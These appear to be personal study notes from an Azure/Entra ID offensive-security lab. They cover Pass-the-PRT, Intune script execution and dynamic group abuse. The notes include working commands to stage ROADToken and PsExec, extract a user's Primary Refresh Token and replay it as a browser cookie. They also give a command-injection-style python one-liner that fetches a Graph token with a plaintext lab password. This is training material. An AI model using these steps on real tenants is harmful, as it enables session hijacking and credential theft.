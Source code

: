 # Lateral Movement - Pass-the-PRT

**Primary Refresh Token (PRT)**

* Recall that refresh tokens can be used to request new access tokens for a particular application.
* PRT is a special refresh token used for single sign-on (SSO)!
  * It can be used to obtain access and refresh tokens to any application.
  * Issued to a user for a specific device
  * Valid for 90 days and is continuously renewed
  * CloudAP SSP requests and caches PRT on a device
  * If PRT is MFA-based (Windows Hello or Windows Account manager), then the claim is transferred to app tokens to prevent MFA challenge for every application.
  * Before a fix in August 2021, PRT always had MFA claims.
* If we compromise an Entra joined (or Hybrid joined) machine, it is possible to extract PRT and other keys for a user.
* For Entra Registered machine, PRT is issued if a user has added a secondary work account to the device.

```powershell
Copy-Item -ToSession $jumpvm -Path C:\\AzAD\\Tools\\ROADToken.exe -Destination C:\\Users\\student2802\\Documents -Verbose
Copy-Item -ToSession $jumpvm -Path C:\\AzAD\\Tools\\PsExec64.exe -Destination C:\\Users\\student2802\\Documents -Verbose
Copy-Item -ToSession $jumpvm -Path C:\\AzAD\\Tools\\SessionExecCommand.exe -Destination C:\\Users\\student2802\\Documents -Verbose

Enter-PSSession -Session $jumpvm
Invoke-Command -Session $infradminsrv -ScriptBlock{mkdir C:\\Users\\Public\\student2802}
Copy-Item -ToSession $infradminsrv -Path C:\\Users\\student2802\\Documents\\ROADToken.exe -Destination C:\\Users\\Public\\student2802 –Verbose
Copy-Item -ToSession $infradminsrv -Path C:\\Users\\student2802\\Documents\\PsExec64.exe -Destination C:\\Users\\Public\\student2802 –Verbose
Copy-Item -ToSession $infradminsrv -Path C:\\Users\\student2802\\Documents\\SessionExecCommand.exe -Destination C:\\Users\\Public\\student2802 –Verbose

Invoke-Command -Session $infradminsrv -ScriptBlock{ls C:\\Users\\Public\\student2802\\}
Invoke-Command -Session $infradminsrv -ScriptBlock{qwinsta}
Invoke-Command -Session $infradminsrv -ScriptBlock{Get-Process -IncludeUserName}
```

**Lateral Movement - Pass-the-PRT**

* If we have access to a PRT, it is possible to request access tokens for any application.
* Chrome uses BrowserCore.exe to use PRT and request PRT cookie for SSO experience.
* This PRT cookie - `x-ms-RefreshTokenCredential` – can be used in a browser to access any application as the user whose PRT we have
* Entra ID makes use of nonce for request validation. We need to request a nonce to extract PRT:

```powershell
$TenantId = "2d50cb29-5f7b-48a4-87ce-fe75a941adb6"
$URL = "<https://login.microsoftonline.com/$TenantId/oauth2/token>"

$Params = @{
    "URI"     = $URL 
    "Method"  = "POST"
}

$Body = @{
    "grant_type" = "srv_challenge"
    }
    
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

> We can extract PRT by using the below tools in a session of the target Entra ID user:

* ROADToken `C:\\AzAD\\Tools\\ROADToken.exe <nonce>`
* AADInternals `Get-AADIntUserPRTToken`
* We could also use Mimikatz or its variants (like pypykatz) to extract the PRT and other secrets (Session Key and Clear key).
* Please note that in the lab, we are using `SessionExecCommand` to run `ROADToken` in context of the user Michael Barron.

```powershell
Invoke-Command -Session $infradminsrv -ScriptBlock{C:\\Users\\Public\\student43\\PsExec64.exe -accepteula -s "cmd.exe" " /c C:\\Users\\Public\\student43\\SessionExecCommand.exe MichaelMBarron C:\\Users\\Public\\student43\\ROADToken.exe AwABEgEAAAADAOz_BQD0__zu8sIZg5aMp6p2_98j1FzCV1hwP6tXMPtgalHS45DClKW4t7il5ooWU0VLfmVGA90QiHsjoztbI7ISeI3tJy4gAA > C:\\Users\\Public\\student2802\\PRT.txt"}
Invoke-Command -Session $infradminsrv -ScriptBlock{cat c:\\Users\\Public\\student2802\\PRT.txt}
```

* Once we have the PRT cookie, copy the value from previous command and use it with Chrome web browser
  * Open the Browser in Incognito mode
  * Go to [https://login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf)
  * Press F12 (Chrome dev tools) -> Application -> Cookies
  * Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for[https://login.microsoftonline.com](https://login.microsoftonline.com/) and set its value to that retrieved from AADInternals
  * Mark HTTPOnly and Secure for the cookie
  * Visit [https://login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf) again and we will get access as the user!
  * Note that a location based Conditional Access Policy would block Pass-the-PRT whereas a “require compliant and/or Entra joined device” policy is bypassed.

#### Device Management - Intune

* Intune is a Mobile Device Management (MDM) and Mobile Application Management (MAM) service.
* Intune needs an Enterprise Mobility + Security E5 license.
* For devices to be fully managed using Intune, they need to be enrolled.
* Enrolled devices (IsCompliant or Compliant set to Yes in Azure Portal) allow
  * Access control using Conditional Access Policies
  * Control installed applications, access to information, setup threat protection agents etc.

**Lateral Movement - Intune - Cloud to On-Prem**

* Using the Endpoint Manager at [https://endpoint.microsoft.com/](https://endpoint.microsoft.com/), a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device.
* The script runs with privileges of SYSTEM on the device. We do not get to see the script output and the script doesn't run again if there is no change.
* As per documentation, the script execution takes place every one hour but in my experience that is random.

#### Dynamic Groups

* We can create rules - based on user or device properties - to automatically join them to a Dynamic group.
* For example, an organization may add users to a particular group based on their userPrincipalName, department, mail etc.
* When a group membership rule is applied, all users and device attributes are evaluated for matches.
* When an attribute changes for a user or device, all dynamic group rules are checked for a match and possible membership changes.
* No Entra ID roles can be assigned to a Dynamic Group but Azure RBAC roles can be assigned.
* Dynamic groups requires Entra ID premium P1 license.

**Abuse**

* By default, any user can invite guests in Entra ID.
* If a dynamic group rule allows adding users based on the attributes that a guest user can modify, it will result in abuse of this feature.
* There are two ways the rules can be abused
  * Before joining a tenant as guest. If we can enumerate that a property, say mail, is used in a rule, we can invite a guest with the email ID that matches the rule.
  * After joining a tenant as guest. A guest user can 'manage their own profile', that is, they can modify manager and alternate email. We can abuse a rule that matches on Manager (Direct Reports for "{objectID\_of\_manager}") or alternative email (user.otherMails -any (\_ -contains "string"))

```
; python -c "import http.client, json; client_id, tenant_id, username, password = '04b07795-8ddb-461a-bbee-02f9e1bf7b46', 'b6e0615d-2c17-46b3-922c-491c91624acd', 'thomasebarlow@defcorpit.onmicrosoft.com', r'DeployM3ntUserInTh3Tan3nt!!'; scope = 'openid profile offline_access <https://graph.microsoft.com/.default>'; body = f'client_id={client_id}%26grant_type=password%26username={username}%26password={password}%26scope={scope}%26client_info=1'; headers = {'Content-Type': 'application/x-www-form-urlencoded'}; conn = http.client.HTTPSConnection('login.microsoftonline.com'); conn.request('POST', f'/{tenant_id}/oauth2/v2.0/token', body, headers); response = conn.getresponse(); status_code = response.status; data = json.loads(response.read()); conn.close(); print(status_code)";
; python /tmp/uploads/enumerate_dynamic_groups_x/enumerate_dynamic_groups_ x.py ;
```

\
